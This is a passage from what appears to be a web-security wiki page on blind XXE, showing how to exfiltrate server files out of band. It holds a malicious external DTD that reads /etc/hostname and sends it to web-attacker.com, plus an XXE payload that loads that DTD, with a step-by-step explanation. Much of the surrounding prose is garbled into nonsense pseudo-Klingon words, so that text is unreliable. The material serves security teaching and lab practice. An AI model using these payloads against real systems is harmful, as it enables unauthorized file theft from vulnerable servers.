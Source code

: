 **vItlhutlh** _**SSRF**_ **- Exfiltrate data out-of-band**

**vaj** _**SSRF**_ **- Exfiltrate data out-of-band** **wej** _**server**_ **vItlhutlh** _**DTD**_ **jatlhlaH** **malicious payload** **vItlhutlh** **HTTP request** **vItlhutlh** **file content** **vIleghlaH** **(multi-line files** **ftp://** **vItlhutlh)**. **vaj** **explanation** **Portswiggers lab** **[**_**here**_**](https://portswigger.net/web-security/xxe/blind)**.**

**vItlhutlh** **malicious DTD** **Example:**
**vItlhutlh** **structure** **vItlhutlh** **follows:**
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
The steps executed by this DTD include:

1. **Definition of Parameter Entities:**
- An XML parameter entity, `%file`, is created, reading the content of the `/etc/hostname` file.
- Another XML parameter entity, `%eval`, is defined. It dynamically declares a new XML parameter entity, `%exfiltrate`. The `%exfiltrate` entity is set to make an HTTP request to the attacker's server, passing the content of the `%file` entity within the query string of the URL.

2. **Execution of Entities:**
- The `%eval` entity is utilized, leading to the execution of the dynamic declaration of the `%exfiltrate` entity.
- The `%exfiltrate` entity is then used, triggering an HTTP request to the specified URL with the file's contents.

The attacker hosts this malicious DTD on a server under their control, typically at a URL like `http://web-attacker.com/malicious.dtd`.

**XXE Payload:**
To exploit a vulnerable application, the attacker sends an XXE payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
### Error Based(External DTD)
